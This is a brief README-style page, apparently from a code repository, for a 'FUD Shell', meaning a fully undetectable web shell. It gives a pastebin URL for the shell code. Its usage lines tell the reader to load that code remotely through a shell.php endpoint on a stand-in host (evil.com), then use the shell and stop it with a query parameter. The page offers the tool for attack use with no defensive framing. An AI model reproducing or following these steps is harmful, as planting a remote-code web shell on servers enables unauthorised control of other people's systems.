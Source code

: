 # FUD Shell
Mini Shell URL: http://pastebin.com/raw/5KRBakK8

Usage: https://evil.com/shell.php?start=http://pastebin.com/raw/5KRBakK8

And then use the shell as https://evil.com/shell.php

If you want to stop the shell just put https://evil.com/shell.php?stop
